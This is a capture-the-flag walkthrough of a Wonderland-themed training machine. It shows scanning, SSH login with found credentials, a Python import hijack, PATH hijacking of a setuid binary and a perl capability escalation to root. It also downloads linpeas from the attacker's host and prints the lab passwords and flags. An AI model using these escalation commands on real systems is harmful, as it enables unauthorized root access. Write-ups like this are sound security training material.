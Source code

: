 ### IP
`10.10.226.175`

# Enumeration
### nmap
`nmap -sC -sV 10.10.226.175 -oN init.nmap`
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-22 15:27 EST
Nmap scan report for 10.10.226.175
Host is up (0.14s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.37 seconds
```
* We have ssh and http

### gobuster
`gobuster dir -u http://10.10.226.175/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.226.175/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/02/22 15:50:18 Starting gobuster
===============================================================
/img (Status: 301)
/r (Status: 301)
Progress: 12164 / 220561 (5.52%)
===============================================================
2021/02/22 15:52:34 Finished
===============================================================
```

* Seeing that we have to "follow the rabbithole" on the website and the first directory is just `/r`, I guessed that I have to go to `/r/a/b/b/i/t`
	* If we look at the source of this, we find: `alice:HowDothTheLittleCrocodileImproveHisShiningTail`
	* This looks like it works as ssh credentials


# SSH
`ssh alice@10.10.226.175` with password `HowDothTheLittleCrocodileImproveHisShiningTail`


### privesc to rabbit
* Running `sudo -l` gives us the following output:
```
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

```
* We can run that python file as the rabbit user
* Looking at the file, we can see that it does `import random.py` at the start
	* We can overload that import by creating our own file that does something malicious


* To get a shell, we can make a file `random.py` with the following contents:
```python
import os

os.system("/bin/sh")
```

* Running `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` gets us to the rabbit user

### privesc to hatter
* In the rabbit home directory, there is a binary called `teaParty`
* We don't really know what it does, so let's run it locally

* First, start a file server on the machine with `python3 -m http.server`
* Then do `wget 10.10.226.175:8000/teaParty` to get the binary locally

* Looking at the disascompilation in ghidra shows us the following for main (which was the only user-defined-function):

```c

void main(void)

{
  setuid(0x3eb);
  setgid(0x3eb);
  puts("Welcome to the tea party!\nThe Mad Hatter will be here soon.");
  system("/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R");
  puts("Ask very nicely, and I will give you some tea while you wait for him");
  getchar();
  puts("Segmentation fault (core dumped)");
  return;
}

```
* The binary runs a `seuid` and `setgid`, which is practically begging us for a privesc
	* These ensure that privileges don't drop during the program
* Running `id hatter` shows us that id `1003`, (aka the `0x3eb` in the binary) is the `hatter` user
```
uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)
```
* There's also a tiny bit of trickery going on, as we can see that the binary prints a segfault no matter what
	* This could have been determined by not printing errors using `./teaParty 2>/dev/null`

* The binary also runs the `date` command. Because it isn't an absolute path, we can hijack that
* Let's make our own binary that gets shell with the following in a file called "date"
```bash
#!/bin/sh
/bin/sh
```
	* nano didn't work for some reason, so I used `echo "#!/bin/sh" > date` and `echo "/bin/sh" >> date`

* Now, we can change our path variable to point to the current directory instead of /bin with `export PATH=/home/hatter:$PATH`
* Running the binary gets us the hatter user
	* Going to his home directory, we can `cat password.txt` to get `WhyIsARavenLikeAWritingDesk?`
	* This turns out to be his ssh password, which makes things easier. SSH the same way as before

### privesc to root
* Let's upload linpeas
* We can set up a file server with `python3 -m http.server 80`
	* My tun0 address is 10.6.36.105
	* Run `wget 10.6.36.105/linpeas.sh`

* Running linpeas, there's a lot of output, but we see some interesting setuid binaries:
```
Files with capabilities:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

* perl is an easy way to privesc, so we can run `./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'`
	* [Reference](https://www.hackingarticles.in/linux-for-pentester-perl-privilege-escalation/)

* Now, running `cat /root/user.txt`, we get the user flag: `thm{"Curiouser and curiouser!"}`
* Running `cat /alice/root.txt` gets the root flag: `thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}`
